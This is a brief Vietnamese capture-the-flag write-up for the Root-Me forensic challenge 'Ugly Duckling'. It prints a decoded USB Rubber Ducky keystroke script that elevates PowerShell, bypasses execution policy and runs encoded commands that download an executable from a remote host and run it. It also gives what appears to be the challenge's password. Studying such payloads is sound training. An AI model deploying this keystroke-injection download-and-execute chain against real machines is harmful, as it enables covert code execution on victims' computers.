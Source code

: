 **Password: TuM@sTrouv3**

# Ugly Duckling

Chall đưa cho ta 1 file .bin, mình không biết là như nào nhưng mà đọc wu thì họ bảo là dùng [tool](https://ducktoolkit.com/decoder/) này

Sau khi decode xong, ta thu được đoạn code như này
```
DELAY
iexplore http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpgENTER
DELAY
DELAY
ENTER
DELAY
DELAY
%USERPROFILE%\Documents\796f75277665206265656e2054524f4c4c4544.jpgDELAY
ENTER
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
ENTER
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
ENTER
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
ENTER
DELAY
powershell Start-Process powershell -Verb runAsDELAY
PowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoA
exit
```
